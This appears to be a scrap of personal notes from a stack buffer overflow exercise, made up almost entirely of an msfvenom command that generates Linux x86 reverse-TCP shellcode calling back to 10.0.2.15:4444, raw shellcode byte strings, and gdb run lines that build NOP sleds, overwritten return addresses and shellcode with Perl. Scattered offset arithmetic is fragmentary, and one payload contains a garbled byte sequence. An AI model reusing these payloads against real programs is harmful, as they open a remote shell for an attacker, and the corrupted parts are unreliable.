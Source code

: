 
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f c -b '\x00'


"\xb8\xc2\x42\x48\x68\xd9\xec\xd9\x74\x24\xf4\x5b\x2b\xc9"
"\xb1\x12\x31\x43\x12\x83\xc3\x04\x03\x81\x4c\xaa\x9d\x34"
"\x8a\xdd\xbd\x65\x6f\x71\x28\x8b\xe6\x94\x1c\xed\x35\xd6"
"\xce\xa8\x75\xe8\x3d\xca\x3f\x6e\x47\xa2\xb5\x90\xb5\x3d"
"\xa2\x92\xb9\x50\x6e\x1a\x58\xe2\xe8\x4c\xca\x51\x46\x6f"
"\x65\xb4\x65\xf0\x27\x5e\x18\xde\xb4\xf6\x8c\x0f\x14\x64"
"\x24\xd9\x89\x3a\xe5\x50\xac\x0a\x02\xae\xaf";




90x76, memory, 90 again payloadx64
6
9+12 -> 21
16 

71


9 -> 76
6 -> 73



run $(perl -e 'print "\x90"x60 , "\x20\xcd\xff\xff", print "\x90"x96,"\xb8\x27\xca\x51\xb6\xdb\xc5\xd9\x74\x24\xf4\x5d\x29\xc9\xb1\xx9612\x31\x45\x12\x83\xc5\x04\x03\x62\xc4\xb3\x43\x5d\x03\xc4\x4f\xce\xf0\x78\xfa\xf2\x7f\x9f\x4a\x94\xb2\xe0\x38\x01\xfd\xde\xf3\x31\xb4\x59\xf5\x59\x4d\x9a\x07\x96\x39\x98\x07\xb9\xe5\x15\xe6\x09\x73\x76\xb8\x3a\xcf\x75\xb3\x5d\xe2\xfa\x91\xf5\x93\xd5\x66\x6d\x04\x05\xa6\x0f\xbd\xd0\x5b\x9d\x6e\x6a\x7a\x91\x9a\xa1\xfd"') 




run $(perl -e 'print "A"x60')


return address on 61-64
need 60 nops + 4 original return address + 96 bvytes of nop+ 95 bytes of shellcode

"\xbd\xae\x12\x0d\x74\xda\xdb\xd9\x74\x24\xf4\x5f\x2b\xc9\xb1\x12\x31\x6f\x12\x03\x6f\x12\x83\x69\x16\xef\x81\x44\xcc\x18\x8a\xf5\xb1\xb5\x27\xfb\xbc\xdb\x08\x9d\x73\x9b\xfa\x38\x3c\xa3\x31\x3a\x75\xa5\x30\x52\x8c\x55\xc1\xad\xf8\x57\xc5\xa0\xa4\xde\x24\x72\x32\xb1\xf7\x21\x08\x32\x71\x24\xa3\xb5\xd3\xce\x52\x99\xa0\x66\xc3\xca\x69\x14\x7a\x9c\x95\x8a\x2f\x17\xb8\x9a\xdb\xea\xbb"




run $(perl -e 'print "\x90"x72 , "\x80\xcc\xff\xff", print "\x90"x96,"\xbd\xae\x12\x0d\x74\xda\xdb\xd9\x74\x24\xf4\x5f\x2b\xc9\xb1\x12\x31\x6f\x12\x03\x6f\x12\x83\x69\x16\xef\x81\x44\xcc\x18\x8a\xf5\xb1\xb5\x27\xfb\xbc\xdb\x08\x9d\x73\x9b\xfa\x38\x3c\xa3\x31\x3a\x75\xa5\x30\x52\x8c\x55\xc1\xad\xf8\x57\xc5\xa0\xa4\xde\x24\x72\x32\xb1\xf7\x21\x08\x32\x71\x24\xa3\xb5\xd3\xce\x52\x99\xa0\x66\xc3\xca\x69\x14\x7a\x9c\x95\x8a\x2f\x17\xb8\x9a\xdb\xea\xbb"')

run $(perl -e 'print "\x90"x60 , "\x30\xcd\xff\xff"')